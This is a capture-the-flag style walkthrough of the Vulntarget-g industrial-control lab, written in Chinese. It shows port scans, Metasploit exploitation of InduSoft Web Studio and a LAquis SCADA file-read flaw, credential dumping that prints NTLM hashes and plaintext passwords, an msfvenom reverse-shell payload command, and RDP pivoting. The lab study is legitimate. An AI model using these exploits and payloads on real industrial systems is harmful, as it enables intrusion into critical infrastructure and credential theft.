# Vulntarget-g 综合靶场

<div style="text-align: right;">

date: "2023-06-03"

</div>

参考文章：[工业控制靶场记录以及工业控制协议的简单介绍](https://blog.csdn.net/weixin_48421613/article/details/124966222)

## 环境拓扑图


## 相关信息

```
HMI
账号：vuln
密码：Admin@123.

ZJQ
winxp：winXP_ZIJINQIAO
账号1：Administrator
密码1：#xYpo3;W6aS

账号2：vulntarget
密码2：#xYpo3;W6aS

ForceControl（力控）
账号：win7
密码：admin

S7-Client
账号：tegratnluv
密码：Vu1Nt@rG3t9Gg

S7-Server
账号：Vu1NT4r93t
密码：welcometoICS
```

## 外网打点-Target1

```
fscan64.exe -h 192.168.36.0/24 -p 139 445 22 21 80
```

```

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.2
start infoscan
(icmp) Target 192.168.36.1    is alive
(icmp) Target 192.168.36.152  is alive
[*] Icmp alive hosts len is: 2
192.168.36.1:139 open
192.168.36.152:139 open
[*] alive ports len is: 2
start vulscan
已完成 2/2
[*] 扫描结束,耗时: 6.0457161s
```

确定目标：192.168.36.151

#### 信息收集-全端口扫描

```
fscan64.exe -h 192.168.36.152 -p 1-65535
```

```
   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.2
start infoscan
(icmp) Target 192.168.36.152  is alive
[*] Icmp alive hosts len is: 1
192.168.36.152:80 open
192.168.36.152:139 open
192.168.36.152:1521 open
192.168.36.152:81 open
192.168.36.152:443 open
192.168.36.152:8093 open
192.168.36.152:3306 open
192.168.36.152:5432 open
192.168.36.152:6379 open
192.168.36.152:8989 open
192.168.36.152:9086 open
192.168.36.152:21 open
192.168.36.152:20880 open
192.168.36.152:7001 open
192.168.36.152:8080 open
192.168.36.152:22 open
192.168.36.152:8800 open
192.168.36.152:8089 open
192.168.36.152:9001 open
192.168.36.152:8000 open
192.168.36.152:445 open
192.168.36.152:8484 open
192.168.36.152:1433 open
192.168.36.152:8834 open
192.168.36.152:9087 open
192.168.36.152:9000 open
192.168.36.152:9002 open
192.168.36.152:8094 open
192.168.36.152:7007 open
192.168.36.152:8838 open
192.168.36.152:9088 open
192.168.36.152:9008 open
192.168.36.152:9200 open
192.168.36.152:8848 open
192.168.36.152:8095 open
192.168.36.152:9010 open
192.168.36.152:7070 open
192.168.36.152:8858 open
192.168.36.152:9089 open
192.168.36.152:11211 open
192.168.36.152:7071 open
192.168.36.152:9043 open
192.168.36.152:8096 open
192.168.36.152:8868 open
192.168.36.152:9060 open
192.168.36.152:9090 open
192.168.36.152:27017 open
192.168.36.152:8097 open
192.168.36.152:8879 open
192.168.36.152:7008 open
192.168.36.152:9091 open
192.168.36.152:9080 open
192.168.36.152:7074 open
192.168.36.152:8880 open
192.168.36.152:8098 open
192.168.36.152:82 open
192.168.36.152:7078 open
192.168.36.152:8099 open
192.168.36.152:8881 open
192.168.36.152:83 open
192.168.36.152:9092 open
192.168.36.152:9081 open
192.168.36.152:7080 open
192.168.36.152:135 open
192.168.36.152:8100 open
192.168.36.152:8888 open
192.168.36.152:9093 open
192.168.36.152:8030 open
192.168.36.152:9083 open
192.168.36.152:8222 open
192.168.36.152:9094 open
192.168.36.152:84 open
192.168.36.152:9082 open
192.168.36.152:8038 open
192.168.36.152:8244 open
192.168.36.152:9084 open
192.168.36.152:8983 open
192.168.36.152:8101 open
192.168.36.152:8899 open
192.168.36.152:8044 open
192.168.36.152:8108 open
192.168.36.152:86 open
192.168.36.152:8258 open
192.168.36.152:9085 open
192.168.36.152:85 open
192.168.36.152:9095 open
192.168.36.152:8042 open
192.168.36.152:12443 open
192.168.36.152:12018 open
192.168.36.152:8028 open
192.168.36.152:8280 open
192.168.36.152:87 open
192.168.36.152:9096 open
192.168.36.152:8046 open
192.168.36.152:8083 open
192.168.36.152:14000 open
192.168.36.152:7088 open
192.168.36.152:88 open
192.168.36.152:8084 open
192.168.36.152:8048 open
192.168.36.152:16080 open
192.168.36.152:8118 open
192.168.36.152:7200 open
192.168.36.152:8288 open
192.168.36.152:18000 open
192.168.36.152:8161 open
192.168.36.152:89 open
192.168.36.152:8053 open
192.168.36.152:8085 open
192.168.36.152:7680 open
192.168.36.152:90 open
192.168.36.152:18001 open
192.168.36.152:8172 open
192.168.36.152:8180 open
192.168.36.152:18002 open
192.168.36.152:7687 open
192.168.36.152:91 open
192.168.36.152:8086 open
192.168.36.152:8069 open
192.168.36.152:92 open
192.168.36.152:8181 open
192.168.36.152:8070 open
192.168.36.152:8090 open
192.168.36.152:8088 open
192.168.36.152:8087 open
192.168.36.152:18004 open
192.168.36.152:7777 open
192.168.36.152:98 open
192.168.36.152:8060 open
192.168.36.152:8081 open
192.168.36.152:800 open
192.168.36.152:8009 open
192.168.36.152:99 open
192.168.36.152:8010 open
192.168.36.152:7688 open
192.168.36.152:7890 open
192.168.36.152:8200 open
192.168.36.152:18008 open
192.168.36.152:8082 open
192.168.36.152:18080 open
192.168.36.152:8300 open
192.168.36.152:9097 open
192.168.36.152:8001 open
192.168.36.152:8091 open
192.168.36.152:8011 open
192.168.36.152:8360 open
192.168.36.152:9098 open
192.168.36.152:18082 open
192.168.36.152:801 open
192.168.36.152:8002 open
192.168.36.152:8092 open
192.168.36.152:8012 open
192.168.36.152:808 open
192.168.36.152:8443 open
192.168.36.152:9099 open
192.168.36.152:18088 open
192.168.36.152:8020 open
192.168.36.152:8003 open
192.168.36.152:8018 open
192.168.36.152:8448 open
192.168.36.152:880 open
192.168.36.152:9100 open
192.168.36.152:8016 open
192.168.36.152:9999 open
192.168.36.152:18090 open
192.168.36.152:8004 open
192.168.36.152:20720 open
192.168.36.152:9981 open
192.168.36.152:888 open
192.168.36.152:9986 open
192.168.36.152:19001 open
192.168.36.152:21000 open
192.168.36.152:20000 open
192.168.36.152:8006 open
192.168.36.152:889 open
192.168.36.152:10000 open
192.168.36.152:9443 open
192.168.36.152:18098 open
192.168.36.152:9988 open
192.168.36.152:10001 open
192.168.36.152:21501 open
192.168.36.152:21502 open
192.168.36.152:1000 open
192.168.36.152:8008 open
192.168.36.152:9998 open
192.168.36.152:9800 open
192.168.36.152:10002 open
192.168.36.152:3000 open
192.168.36.152:28018 open
192.168.36.152:3008 open
192.168.36.152:1118 open
192.168.36.152:1888 open
192.168.36.152:10008 open
192.168.36.152:6868 open
192.168.36.152:10004 open
192.168.36.152:2100 open
192.168.36.152:10250 open
192.168.36.152:9448 open
192.168.36.152:10010 open
192.168.36.152:1010 open
192.168.36.152:5555 open
192.168.36.152:7000 open
192.168.36.152:2008 open
192.168.36.152:6080 open
192.168.36.152:7003 open
192.168.36.152:2375 open
192.168.36.152:3128 open
192.168.36.152:7004 open
192.168.36.152:2020 open
192.168.36.152:3505 open
192.168.36.152:7002 open
192.168.36.152:6648 open
192.168.36.152:1080 open
192.168.36.152:1081 open
192.168.36.152:2379 open
192.168.36.152:7005 open
192.168.36.152:1082 open
192.168.36.152:1099 open
[*] alive ports len is: 218
start vulscan
[+] 192.168.36.152      MS17-010        (Windows 5.1)
[*] WebTitle: http://192.168.36.152     code:404 len:77     title:None
[mysql] 2023/05/31 17:24:07 packets.go:37: unexpected EOF
[mysql] 2023/05/31 17:24:19 packets.go:37: unexpected EOF
[mysql] 2023/05/31 17:24:30 packets.go:37: unexpected EOF
已完成 217/219 [-] redis 192.168.36.152:6379 redis123 <nil>
已完成 218/219 [-] redis 192.168.36.152:6379 123456!a <nil>
已完成 218/219 [-] redis 192.168.36.152:6379 1qaz!QAZ <nil>
已完成 219/219
[*] 扫描结束,耗时: 3m31.0409473s
```

#### 信息收集-Nmap详细探测
```
nmap -v -A 192.168.36.152 -p-
```
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-31 17:24 中国标准时间
NSOCK ERROR [0.2410s] ssl_init_helper(): OpenSSL legacy provider failed to load.

NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 17:24
Completed NSE at 17:24, 0.00s elapsed
Initiating NSE at 17:24
Completed NSE at 17:24, 0.00s elapsed
Initiating NSE at 17:24
Completed NSE at 17:24, 0.00s elapsed
Initiating ARP Ping Scan at 17:24
Scanning 192.168.36.152 [1 port]
Completed ARP Ping Scan at 17:24, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 17:24
Completed Parallel DNS resolution of 1 host. at 17:24, 0.03s elapsed
Initiating SYN Stealth Scan at 17:24
Scanning 192.168.36.152 [65535 ports]
Discovered open port 139/tcp on 192.168.36.152
Discovered open port 445/tcp on 192.168.36.152
Discovered open port 135/tcp on 192.168.36.152
Discovered open port 1234/tcp on 192.168.36.152
Discovered open port 4322/tcp on 192.168.36.152
Completed SYN Stealth Scan at 17:24, 16.09s elapsed (65535 total ports)
Initiating Service scan at 17:24
Scanning 5 services on 192.168.36.152
Service scan Timing: About 80.00% done; ETC: 17:27 (0:00:39 remaining)
Completed Service scan at 17:27, 156.34s elapsed (5 services on 1 host)
Initiating OS detection (try #1) against 192.168.36.152
NSE: Script scanning 192.168.36.152.
Initiating NSE at 17:27
Completed NSE at 17:28, 56.58s elapsed
Initiating NSE at 17:28
Completed NSE at 17:28, 1.08s elapsed
Initiating NSE at 17:28
Completed NSE at 17:28, 0.00s elapsed
Nmap scan report for 192.168.36.152
Host is up (0.0072s latency).
Not shown: 65530 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
445/tcp  open  microsoft-ds Microsoft Windows XP microsoft-ds
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
1234/tcp open  hotline?
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
4322/tcp open  trim-event?
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4322-TCP:V=7.93%I=7%D=5/31%Time=64771266%P=i686-pc-windows-windows%
SF:r(GenericLines,2,"\x06\0")%r(RPCCheck,1,"\x06")%r(SSLSessionReq,3,"\x06
SF:0\0")%r(TerminalServerCookie,2,"\x15\x02")%r(TLSSessionReq,3,"\x060\0")
SF:%r(LPDString,2,"\x15\x04")%r(TerminalServer,2,"\x15\x02")%r(NotesRPC,2,
SF:"\x06\0")%r(WMSRequest,2,"\x15\x01")%r(ms-sql-s,2,"\x15\x05");
MAC Address: 00:0C:29:BD:C4:F8 (VMware)
Device type: general purpose
Running: Microsoft Windows XP
OS CPE: cpe:/o:microsoft:windows_xp::sp2 cpe:/o:microsoft:windows_xp::sp3
OS details: Microsoft Windows XP SP2 or SP3
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=253 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
| nbstat: NetBIOS name: VULN-HMI, NetBIOS user: <unknown>, NetBIOS MAC: 000c29bdc4f8 (VMware)
| Names:
|   VULN-HMI<00>         Flags: <unique><active>
|   VULN-HMI<20>         Flags: <unique><active>
|   MSHOME<00>           Flags: <group><active>
|   MSHOME<1e>           Flags: <group><active>
|   MSHOME<1d>           Flags: <unique><active>
|_  \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)

TRACEROUTE
HOP RTT     ADDRESS
1   7.23 ms 192.168.36.152

NSE: Script Post-scanning.
Initiating NSE at 17:28
Completed NSE at 17:28, 0.00s elapsed
Initiating NSE at 17:28
Completed NSE at 17:28, 0.00s elapsed
Initiating NSE at 17:28
Completed NSE at 17:28, 0.00s elapsed
Read data files from: D:\Nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 232.45 seconds
           Raw packets sent: 70484 (3.102MB) | Rcvd: 65787 (2.634MB)

```

#### 漏洞利用-4322端口利用

尝试使用MSF模块利用ms17-010，以失败告终，根据Nmap扫描到的结果还有1234和4322端口开放，依次访问，都没有web页面，网上搜索4322端口，发现一篇文章：[嵌入式HMI软件-InduSoft Web Studio RCE漏洞复现](https://cloud.tencent.com/developer/article/1910841)，msf中集成了这个exp，尝试利用。

```
use windows/scada/indusoft_webstudio_exec
```



步骤：

1. 迁移进程
2. 添加路由
3. 抓取密码
4. 远程桌面上线失败，无法添加用户到远程桌面组

#### 外网机信息收集-密码收集

```
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username   Domain    LM                                NTLM                              SHA1
--------   ------    --                                ----                              ----
VULN-HMI$  MSHOME    aad3b435b51404eeaad3b435b51404ee  31d6cfe0d16ae931b73c59d7e0c089c0  da39a3ee5e6b4b0d3255bfef95601890afd80
                                                                                         709
vuln       VULN-HMI  6f08d7b306b1dad4b5841299120d114d  d92b40c276ae016de921403adf6e2714  1cc0ea29d515403a28ed7ee8281b2e72c7ad1
                                                                                         e6a

wdigest credentials
===================

Username   Domain    Password
--------   ------    --------
VULN-HMI$  MSHOME    (null)
vuln       VULN-HMI  Admin@123.

kerberos credentials
====================

Username   Domain    Password
--------   ------    --------
(null)     (null)    (null)
VULN-HMI$  MSHOME    (null)
vuln       VULN-HMI  Admin@123.
vuln-hmi$  MSHOME    (null)
```
### 外网机信息收集-桌面文档


在桌面发现`工作日记.md`，工作日志中的内容如下：


##### 工作日记

___

作者：工号T007176——赵无敌

初来乍到，在师傅们的带领下，今天了解了我们主要使用的工控软件类型，主要有InduSoft Web Studio、紫金桥、LAquis等。这些SCADA以及HMI以前都或多或少有听说过，但是却没有真正的使用过，还有期待已久的真实的PLC，也终于是见到了，今后一定会在师傅们的带领下成为厂里一名合格的员工，加油！


今天刘师傅带我了解了我们使用的InduSoft Web Studio嵌入式HMI软件，是一个功能强大的自动化整合开发工具，含有自动化的人机交互界面，也是我们整个工业流程中一个很重要的环节；刘师傅教了我各项功能的使用方法，还有日常的巡检以及维护等工作如何进行，刚来就学习这么多，需要好好消化一下。把学习笔记放在了C:\Notes\HMI.txt中了，希望能够慢慢熟悉他的操作。


今天还在继续熟悉InduSoft Web Studio的操作，查看记录了日志以及部分配置文件的内容以及学会了如何分析，还搞了一些样本备份，被分在了我常用的机器上边，分别有安装时的软件配置C:\InduSoftWebStudiov7.1\Bin\CEView.ini；还有一个是项目中的细节配置数据C:\InduSoftWebStudiov7.1\Drv\A2420.ini，师傅说加入出了问题，第一时间就要找到我们的配置文件，查看配置是否存在问题，还要时常去检查自己的配置文件，以防出现小问题导致大毛病的现象出现。


今天李师傅带我认识了紫金桥（RealInfo）的基本功能以及安装使用方式，这个组态软件功能繁多，其中的文件结构也是十分的复杂，但是在李师傅耐心的教导下，我还是学习到了很多，首先有一个关于安装信息的配置文件C:\RealInfo6.5\AUTORUN.INF，这个是可以帮助我进行安装分析的；然后还存在一个记录文档，师傅说这里是我们需要一些关键的信息记录在这里C:\RealInfo6.5\DeviceSetup\note.txt；师傅说还有一些注意事项，都是他长久以来工作经历所积累下来的，让我可以借鉴一下：C:\RealInfo6.5\ServerSetup\Public\tips.txt；最后还有一个记录关于各种服务项目等信息的文档：C:\RealInfo6.5\ServerSetup\RealServer\PrgTitle.Txt；东西有点太多了，需要慢慢消化，希望可以尽早熟悉这款组态软件。


今天还是继续在熟悉资金桥这款组态软件，由于这款软件的文件结构比较复古且繁杂，导致我市场找不到各种功能所需要的执行程序是哪个，搞得我有点焦头烂额，晚上下班前师傅来检查我的成果时，我表现得也不尽人意，但是师傅却说刚接触这个软件都或多或少会有这样的情况发生，于是告诉了我一个关键的配置文件，里边记载了各项功能对应的执行程序名称，我也牢牢得把它记在了心里C:\RealInfo6.5\ServerSetup\_Chinese\shortcut.ini，这个是中文版的，如果想看英文版的需要把Chinese改成English，受益匪浅。


今天吴师傅又给我普及了一个新的SCADA软件——LAquis，这是一款监视控制和数据采集软件，可在ICS活DCS中工作，可以担任数据采集以至于应用程序开发等工作，认真跟着吴师傅学习，收获颇多，将我的收获卸载了学习文档中C:\Notes\SCADA.txt；吴师傅还使用了一个模板样本来给我现场演示，以便于让我快速学习实操，还告诉我使用模板之前一定要查看模板的配置文件，知己知彼，百战不殆，这样才能更好的使用这个模板，我也默默的记下了这个配置文件C:\LAquis\modelos\SAMPLE1.INI；师傅还是用OMRON协议来给我做演示，依旧告诫我配置文件的重要性，我也牢记配置文件的位置C:\LAquis\Apls\Examples\ExemplosCLPs\OMRON\OMRONTESTE1.INI；总体来说还是收获颇丰，还需要好好消化。


接下来就是需要我自己在实际的工作中去实践，通过实践来发现自己的问题所在，来提升自己的专业技术，早日成为我厂一名合格的可以独当一面的正式员工。


…………


现在师傅们说我已经熟练的掌握了日常所需要用到的各种功能软件，明天厂内对我们这一批入职的人员进行压力测试，虽然我的专业技能越来越熟练，但是遇上这种场合还是会有点紧张，给到的信息我小心的保存了下来C:\document\information.txt；我一定不会辜负众多师傅的认真教导，给师傅们以及自己一份满意的答卷。


总算是圆满通过了压力测试，也算是没有白费这一段时间的努力学习，这样就可以正式投身到真实工作场景中去了，还是很激动的，今天终于可以睡个安稳觉了，专门保存了厂里发下的通知C:\document\score.txt；晚安！


…………
___

##### 提取工作文档关键信息
对于其中提到的

1. 学习笔记“C:\Notes\HMI.txt”
2. 安装软件配置文件路径：“C:\InduSoftWebStudiov7.1\Bin\CEView.ini“
3. 项目中的细节配置数据：“C:\InduSoftWebStudiov7.1\Drv\A2420.ini”
4. 紫金桥安装配置文件：”C:\RealInfo6.5\AUTORUN.INF“
5. 紫金桥关键信息文件：”C:\RealInfo6.5\DeviceSetup\note.txt“
6. 紫金桥注意事项：”C:\RealInfo6.5\ServerSetup\Public\tips.txt“
7. 记录各种服务项目等信息文档：”C:\RealInfo6.5\ServerSetup\RealServer\PrgTitle.Txt“
8. 紫金桥关键配置文件：”C:\RealInfo6.5\ServerSetup\_Chinese\shortcut.ini“
9. LAquis：”C:\Notes\SCADA.txt“
10. LAquis模板配置文件：”C:\LAquis\modelos\SAMPLE1.INI“
11. LAquis配置文件：”C:\LAquis\Apls\Examples\ExemplosCLPs\OMRON\OMRONTESTE1.INI“
12. 入职人员信息：”C:\document\information.txt“
13. 通知：”C:\document\score.txt“



在外网机器尝试访问，均不存在


#### 内网信息收集-网段探测

搭建好内网代理，决定对`192.168.90.0/24`网段进行探测，使用MSF自带的扫描模块进行探测，探测结果为：

存活机器：192.168.90.110

存活机器开放端口：135,139,445,1234,1235,3389,4399,7788

#### 横向移动-LAquis SCADA 任意文件读取

发现Web站点：http://192.168.90.110:1234


查找资料：LAquis SCADA 是LCDS-巴西咨询与发展公司开发的一款监视控制和数据采集软件，可在工业控制系统（ICS）或分布式控制系统（DCS）中工作，从数据采集到应用程序开发。

通过搜索公开的漏洞发现利用msf的exp：[https://www.exploit-db.com/exploits/42885](https://www.exploit-db.com/exploits/42885)

下载的exp文件以`.rb`结尾，我们将之重命名为`LAquis_cve_2017_6020`，而后拷贝到kali的
`/usr/share/metasploit-framework/modules/exploits/windows/scada/`内

```
mv LAquis_cve_2017_6020.rb /usr/share/metasploit-framework/modules/exploits/windows/scada/
```

msf中`reload_all` 加载全部模块，就可以将我们新的payload加载进去，这条命令不需要重启msf，session不会掉。

```
reload_all

use exploit/windows/scada/LAquis_cve_2017_6020
show options
set RhoSTS 192.168.90.110
set document/information.txt
run
```

解读一下

1. DEPTH 到达基本目录的级别，(也就是有多少个…/)，如果安装时未更改路径，默认就是向上跳转10级。如果更改路径漏洞利用不成功，可以根据实际情况调整此参数。
2. FILE 这是要下载的文件,与上面的DEPTH参数结合组成完整的文件路径。
3. Proxies 端口[，类型：主机：端口] […]的代理链
4. RHOSTS 目标主机，范围CIDR标识符或具有语法’file： ‘的主机文件
5. RPORT 目标端口（TCP），软件默认安装是1234，不排除更改的可能。
6. SSL 协商出站连接的SSL / TLS
7. VHOST HTTP服务器虚拟主机

这里是使用的是任意文件读取漏洞，根据上文收集到的信息。

run完以后的文件保存在`/root/.msf4/loot/`文件夹下，注意FIle设置时是反斜杠`\`



以GBK格式打开这个txt文件获取到账号密码，且该设备3389开放



### 横向移动-获取账号密码本

___

主机备忘录

主机1：

账户：vuln

密码：Admin@123.


主机2：

账号：vulntarget

密码：#xYpo3;W6aS


主机3：

账号：win7

密码：admin


主机4：

终于来到这里了，可是却没有得到主机4的账户密码，但是根据可靠消息得知，主机4的账户、密码可能在力控软件的用户信息里，你能找到他吗？

___


## 横向移动-Target 2

通过3389端口上线192.168.90.110

```
proxychains4 rdesktop -f 192.168.90.110
```


#### 横向移动-MSF上线

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.90.40 LPORT=2222 -a x86 --platform Windows -f exe > shell.exe
```


1. 进程迁移
2. 添加路由

#### 横向移动-Target-2账号密码收集

1. 发现存在192.168.95.0/24段

获取账号密码，查看是否存在其他账号

```
meterpreter > creds_all 
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain        LM                               NTLM                             SHA1
--------       ------        --                               ----                             ----
VULNTARGET-G$  WORKGROUP     aad3b435b51404eeaad3b435b51404e  31d6cfe0d16ae931b73c59d7e0c089c  da39a3ee5e6b4b0d3255bfef9560189
                             e                                0                                0afd80709
vulntarget     VULNTARGET-G  ed550b28167fbb0fbfed731626af39d  ce06183f1ed2787c9fe1f908265f944  232836331b8279aaea5b5bbf56acfe4
                             3                                0                                169e6d9f0

wdigest credentials
===================

Username       Domain        Password
--------       ------        --------
VULNTARGET-G$  WORKGROUP     (null)
vulntarget     VULNTARGET-G  #xYpo3;W6aS

kerberos credentials
====================

Username       Domain        Password
--------       ------        --------
(null)         (null)        (null)
VULNTARGET-G$  WORKGROUP     (null)
vulntarget     VULNTARGET-G  #xYpo3;W6aS
vulntarget-g$  WORKGROUP     (null)
```

#### 横向移动-收集192.168.95.0/24信息

在线机器：192.168.95.100

开放端口：135,139,445,1688,3389

在上文中获取到Target3的账号密码，并且提示主机4的密码藏在力控的用户信息中


## 横向移动-Target3远程桌面上线
通过3389对两台机器，分别100，110进行登录，最终110机器上线成功。

